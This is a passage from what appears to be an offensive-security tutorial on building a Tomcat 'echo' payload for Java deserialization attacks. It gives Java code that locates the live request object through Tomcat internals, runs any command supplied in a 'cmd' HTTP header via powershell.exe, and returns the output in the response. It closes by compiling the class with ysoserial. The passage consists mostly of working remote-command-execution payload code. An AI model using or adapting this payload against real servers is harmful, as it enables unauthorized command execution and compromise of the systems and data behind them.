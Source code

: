 ```java
    if (target instanceof Runnable) {//TomcatEchoPayload.classNameEndWith(target, "NioEndpoint$Poller")  
        java.lang.Object o = TomcatEchoPayload.getFieldValue(target, "this$0");  
        if (TomcatEchoPayload.classNameContains(o, "NioEndpoint")) {  
            java.lang.Object handler = TomcatEchoPayload.getFieldValue(o, "handler");  
            java.lang.Object global = TomcatEchoPayload.getFieldValue(handler, "global");  
            if (TomcatEchoPayload.classNameContains(global, "RequestGroupInfo")) {  
                java.util.List<org.apache.coyote.Request> requests = TomcatEchoPayload.getRequests((org.apache.coyote.RequestGroupInfo) global);  
                if (handleRequests(requests)) {  
                    break;  
                }  
  
            }  
        }  
    }  
}
```
Now that we have obtained the `Request` object, let's write function to run command and reply in response:
```java
public static boolean handleRequest(org.apache.coyote.Request request) {  
    try {  
        org.apache.coyote.Response response = request.getResponse();  
        java.lang.String cmd = request.getHeader("cmd");  
        if (cmd == null || cmd.length() <= 0) {  
            return false;  
        }  
        byte[] res = (new Scanner((new ProcessBuilder(new String[]{"powershell.exe", "/C", cmd})).start().getInputStream())).useDelimiter("\\A").next().getBytes();  
        Class byteChunkCls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");  
        Object byteChunk = byteChunkCls.newInstance();  
        byteChunk.getClass().getDeclaredMethod("setBytes", byte[].class, int.class, int.class).invoke(byteChunk, res, new Integer(0), new Integer(res.length));  
        response.setStatus(200);  
        response.addHeader("TomcatEcho", new String(res, StandardCharsets.UTF_8));  
        response.getClass().getDeclaredMethod("doWrite", byteChunkCls).invoke(response, byteChunk);  
    } catch (Exception e) {  
        throw new RuntimeException(e);  
    }  
    return true;  

  
}
```

Compile the `TomcatEchoPayload` class and get the byte code, we can use `ClassFiles` class in ysuserial:
```java
ClassFiles.classAsBytes(TomcatEchoPayload.class);
```
